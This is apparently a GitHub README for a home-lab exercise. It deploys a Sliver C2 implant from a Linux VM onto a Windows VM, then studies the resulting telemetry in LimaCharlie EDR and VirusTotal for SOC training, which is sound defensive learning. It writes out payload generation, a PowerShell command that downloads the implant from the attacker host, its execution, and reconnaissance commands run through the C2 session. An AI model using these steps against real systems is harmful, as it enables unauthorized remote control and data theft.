# Simulating-a-Cyberattack-with-Sliver-C2-and-LimaCharlie-EDR

# Objective

This lab will provide me practical knowledge with the Sliver C2 architecture, how to create and apply payloads on a Windows VM from a Linux VM. This will offer insightful analysis of how attackers set and exploit routes of command and control between hacked systems. I will also familiarize myself with the Lima Charlie EDR platform, learning how to access and evaluate telemetry data to find suspect activities, examine network connections, and search file systems for indications of compromise. Using VirusTotal for threat intelligence, I'll pick up the skill of searching its database for known malware samples. Filtering and understanding real-time EDR telemetry and event logs will also help me to identify anomalies and possible hazards. This exercise helps me to realize the requirement of knowing typical system behavior as a basis for efficient threat identification and response, so arming me with the fundamental knowledge and abilities required to flourish as a SOC analyst.
# What is LimaCharlie EDR?

LimaCharlie EDR (Endpoint Detection and Response) is a cloud-based security platform that provides real-time visibility into endpoint activity, enabling rapid detection and response to threats. It offers a comprehensive suite of tools for monitoring, analyzing, and responding to security events on endpoints, such as:

- **Real-time telemetry:** Streams detailed information from endpoint sensors to the cloud, allowing for immediate visibility into security events.
- **Versatile detection syntax:** Uses a YAML-based syntax that allows security teams to create custom detections tailored to their specific environments.
- **Integration with open-source and managed rulesets:** Leverages both community-driven and commercially available threat intelligence to enhance detection capabilities.
- **Vendor-agnostic telemetry ingestion:** Can ingest telemetry from various security tools and platforms, providing a unified view of endpoint security.

LimaCharlie EDR is used to observe and analyze the telemetry generated by the C2 implant deployed on the Windows VM, helping to understand the attacker's actions and develop effective detection rules.
## Topology Overview

In this virtual environment setup, the Windows and Ubuntu VMs are configured within VMware Workstation Pro, establishing a controlled and isolated lab setting. The Windows VM functions as the primary target for telemetry and endpoint detection, where security monitoring tools will capture system activities. Conversely, the Ubuntu VM serves as the attacker's system, specifically used for deploying and managing Command and Control (C2) payloads, facilitating the simulation of potential cyber threats. For enhanced security monitoring, the LimaCharlie EDR is installed on the Windows VM, providing comprehensive activity analysis, while Sysmon offers additional granular telemetry, complementing LimaCharlie’s capabilities.

Both VMs are configured with static IP addresses within the VMware NAT network, ensuring stable and consistent connectivity. This network setup is critical, as the static IP of the Ubuntu VM is essential for SSH access, enabling the execution of attack operations. Analysts utilize LimaCharlie’s web interface to delve into telemetry data, with a focus on detecting anomalies and potential malicious activities. This exploration is underpinned by an emphasis on understanding normal system behaviors, which is crucial for accurately identifying and responding to threats.
## Skills Learned

- **Post-exploitation framework utilization:** Working with Sliver to create and manage C2 payloads.
- **Basic understanding of network protocols:** Recognizing HTTP for C2 communication.
- **Malware analysis fundamentals:** Observing the behavior and characteristics of a malware payload.
- **EDR tool familiarity:** Navigating and interpreting data within the LimaCharlie platform.
- **Threat hunting basics:** Using IOCs (Indicators of Compromise) to filter and analyze telemetry.
## Tools Used

- **Sliver:** A post-exploitation framework for C2 operations.
- **Linux VM:** A virtualized operating system environment.
- **SSH:** Secure Shell protocol for remote access to the Linux VM.
- **Python:** Used to create a temporary web server for file transfer.
- **Windows VM:** A virtualized Windows operating system environment.
- **PowerShell:** A task automation and configuration management framework used to execute the payload.
- **LimaCharlie:** An EDR platform used for threat detection and analysis.
- **VirusTotal:** An online malware scanning service used to analyze the C2 payload.

# Deploying Command and Control (C2) with Sliver

Generating and deploying a C2 payload using Sliver involves a series of steps to simulate an attack and establish a command and control (C2) session between a Linux VM and a Windows VM. This process begins by accessing the Linux VM, which serves as the control hub for generating and managing the payload. By establishing an SSH session, gaining root privileges, and navigating to the Sliver installation directory, you set the stage for the subsequent operations.

Launching the Sliver server is the next critical step, initiating the backend services required for payload generation and C2 management. This server will orchestrate communication with multiple implants once the payload is deployed. Generating the C2 payload involves creating a customized piece of malicious code using the Linux VM's static IP address. This payload, saved in the Sliver directory, is the key component that will establish the C2 channel when executed on the target system.

Transferring the payload to the Windows VM is essential for initiating the C2 communication. This involves temporarily starting a Python web server on the Linux VM to facilitate the transfer. On the Windows VM, the payload is downloaded and prepared for execution. Taking a snapshot of the Windows VM before running the payload ensures a safe rollback point if needed.

Starting the C2 session involves executing the payload on the Windows VM and relaunching the Sliver server to monitor and manage the session. By starting the HTTP listener in Sliver and executing the payload from an administrative PowerShell prompt on the Windows VM, the initial connection is established. Verifying the session in Sliver and interacting with it using the session ID confirms that the payload has successfully communicated with the server.

Finally, running basic commands on the compromised Windows VM allows you to gather information and verify the implant's capabilities. Commands like `whoami`, `getprivs`, `netstat`, and `ps -T` provide insights into the system's user privileges, network connections, and running processes. This comprehensive process demonstrates how an attacker might establish and use a foothold on a victim's system for further exploitation, effectively simulating real-world attack scenarios using Sliver.

### What is Sliver?

Sliver is an open-source, cross-platform adversary emulation/red team framework. It is designed to be a scalable tool that can be used by organizations of all sizes to perform security testing. It is often compared to other frameworks like Cobalt Strike or Metasploit. Sliver is used to generate a C2 (command-and-control) payload, simulating the actions of an attacker establishing communication with a compromised system.

**Payload:**

A payload in the context of cybersecurity refers to the actual code or data delivered and executed by malware on a target system. It is the part of the malware that carries out the intended malicious actions, such as data theft, encryption for ransomware, or establishing a connection to a command-and-control (C2) server.

**C2 (Command and Control):**

C2 is the infrastructure that enables an attacker to remotely control and communicate with compromised systems. It serves as a central hub for issuing commands to malware implants on target systems and receiving data exfiltrated from those systems. C2 communication is often obfuscated to avoid detection and can utilize various protocols like HTTP(S), DNS, or custom protocols.

**C2 Function within Sliver:**

Sliver C2 is a framework that facilitates the establishment and management of C2 communication channels. It offers tools to generate and manage implants, establish secure connections to compromised systems, and execute commands remotely. Sliver C2 is designed to be scalable and modular, allowing operators to adapt to various environments and evade detection.

The Sliver server acts as the C2 server, orchestrating communication with multiple implants. It provides a centralized interface for operators to interact with the compromised systems, issue commands, and receive data. Sliver implants, on the other hand, are deployed on victim machines and establish covert channels to the Sliver server for communication.

**Key functions of C2 within Sliver:**

- **Payload Generation:** Creating customized malware implants tailored for specific targets and objectives.
- **Communication Channel Establishment:** Setting up secure and covert communication channels between the Sliver server and implants.
- **Command Execution:** Sending instructions to implants for performing actions on the compromised systems.
- **Data Exfiltration:** Receiving stolen data and information from implants.
- **Session Management:** Keeping track of active C2 sessions and managing compromised systems effectively.

# Steps: Deploying Command and Control (C2) with Sliver

We will now generate and deploy a Command and Control (C2) payload using Sliver, an open-source adversary simulation tool, to establish a C2 session on a Windows VM from a Linux VM. This process involves multiple steps including generating the payload, transferring it to the target system, and verifying the session. 

1. **Accessing the Linux VM**:
    - Establish an SSH session with the Linux VM.
    - Gain root privileges and navigate to the Sliver installation directory:

```
sudo su
cd /opt/sliver
```
   



2. **Launching the Sliver Server**:
    - Start the Sliver server:
      ```sh
      sliver-server
      ```

3. **Generating the C2 Payload**:

- Generate a C2 payload using the Linux VM’s static IP address and save it in the Sliver directory:

```
  generate --http [Linux_VM_IP] --save /opt/sliver
```

- Note the randomized output file name for future reference.
- Confirm the new implant configuration:
 
```
implants
```
  

4. **Transferring the Payload to the Windows VM**:
- Exit the Sliver server:

```
exit
```

- Start a temporary Python web server to facilitate the transfer:

```
cd /opt/sliver
python3 -m http.server 80
```



- On the Windows VM, open an Administrative PowerShell console and download the payload:

```
 IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```




Snapshot the Windows VM for safety:

Snapshot name: “Malware staged”


5. **Starting the Command and Control Session**:
- Terminate the Python web server on the Linux VM with `Ctrl + C`.
- Relaunch the Sliver server:

```
 sliver-server
```

- Start the HTTP listener in Sliver:
```
 http
```

- On the Windows VM, execute the C2 payload from the download location using an Administrative PowerShell prompt:

```
  C:\Users\User\Downloads\[payload_name].exe
```

6. **Verifying and Interacting with the C2 Session**:
- Verify the session in Sliver and note the Session ID:



- Interact with the new C2 session by using the session ID:

```
use [session_id]
```




7. **Running Basic Commands on the Victim Host**:
    - Gather basic information about the session:


 ```
info
```


- Identify the user and privileges of the implant:

```
whoami
```



```
getprivs
```







```
 pwd
```

- Examine network connections:




```
netstat
```

- Identify running processes:




```
 ps -T
```


Through these steps, you have successfully demonstrated generating a C2 payload, transferring it to a target machine, establishing a C2 session, and interacting with the compromised system using Sliver. This process emulates the actions an attacker might take to establish and use a foothold on a victim's system for further exploitation.

---
# Steps: Observing and Analyzing EDR Telemetry in LimaCharlie

The objective is to familiarize you with the various features of LimaCharlie’s web interface, specifically focusing on monitoring and analyzing processes, network activities, and file systems on a Windows VM. You will learn to navigate the interface, inspect processes, identify network connections, and verify file integrity. This exercise emphasizes the importance of understanding normal system behavior to effectively identify anomalies and potential threats. Through this hands-on exploration, you will gain critical insights into EDR telemetry, enhancing your skills in detecting and responding to security incidents.

1. **Accessing Sensors in LimaCharlie:**

   - Navigate to the "Sensors" section in the LimaCharlie web UI.
   - Select an active Windows sensor to begin the analysis.

3. **Exploring Processes:**
**
   - Click on the "Processes" tab for the selected sensor.
   - Examine the process tree, hover over icons to understand their representations.
   - Emphasizes the importance of familiarizing with common system processes to identify anomalies.

5. **Identifying Unusual Processes:**

   - Signed processes are generally benign, but legitimate processes can be exploited.
   - Look for unsigned processes as potential indicators of unusual or malicious activity.
   - Example: A Command and Control (C2) implant that is unsigned and active on the network.


7. **Network Analysis:**


   - Click on the "Network" tab to review network connections.
   - Use Ctrl+F to search for specific implant names or C2 IP addresses.

9. **File System Inspection:**

   - Click on the "File System" tab and navigate to the known location of the implant (e.g., C:\Users\User\Downloads).
   - Inspect the hash of the suspicious executable using VirusTotal.

11. **Understanding VirusTotal Results:**

   - Clarifies that scanning with VirusTotal queries its database for known malware samples.
   - An unknown file on VirusTotal doesn’t imply innocence; it might be a custom-crafted or targeted sample.

13. **Timeline Analysis:**
